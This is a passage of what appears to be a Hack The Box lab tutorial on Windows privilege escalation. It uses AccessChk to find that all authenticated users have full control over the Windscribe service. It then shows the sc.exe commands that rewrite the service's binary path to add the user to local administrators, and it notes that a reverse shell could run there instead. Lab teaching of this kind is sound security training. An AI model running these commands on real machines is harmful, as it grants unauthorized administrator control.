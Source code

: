 In the example, the tool identifies the `WindscribeService`, which is running  the `C:\Program Files (x86)\Windscribe\WindscribeService.exe` binary. 

### Checking Permissions with AccessChk

Next, we'll use [AccessChk](https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk) from the Sysinternals suite to enumerate permissions on the service. The flags we use, in order, are `-q` (omit banner), `-u` (suppress errors), `-v` (verbose), `-c` (specify name of a Windows service), and `-w` (show only objects that have write access). 

```powershell
accesschk.exe /accepteula -quvcw WindscribeService
```

Output:

```
WindscribeService
  Medium Mandatory Level (Default) [No-Write-Up]
  RW NT AUTHORITY\SYSTEM
        SERVICE_ALL_ACCESS
  RW BUILTIN\Administrators
        SERVICE_ALL_ACCESS
  RW NT AUTHORITY\Authenticated Users
        SERVICE_ALL_ACCESS
```

Here we can see that all Authenticated Users have [SERVICE_ALL_ACCESS](https://docs.microsoft.com/en-us/windows/win32/services/service-security-and-access-rights) rights over the service, which means full read/write control over it.

### Changing the Service Binary Path

Checking the local administrators group confirms that our user htb-student is not a member.

```powershell
net localgroup administrators
```

Let's change it to add our user to the local administrator group. We could set the binary path to run any command or executable of our choosing (such as a reverse shell binary).

```powershell
sc.exe config WindscribeService binpath="cmd /c net localgroup administrators htb-student /add"
```


### Restarting the Service

Next, we must stop the service, so the new binpath command will run the next time it is started.

```powershell
sc.exe stop WindscribeService
sc.exe start WindscribeService
```
 
Now we can confirm that our user htb-student is  a member of the Administrator group:

```powershell
net localgroup administrators
```
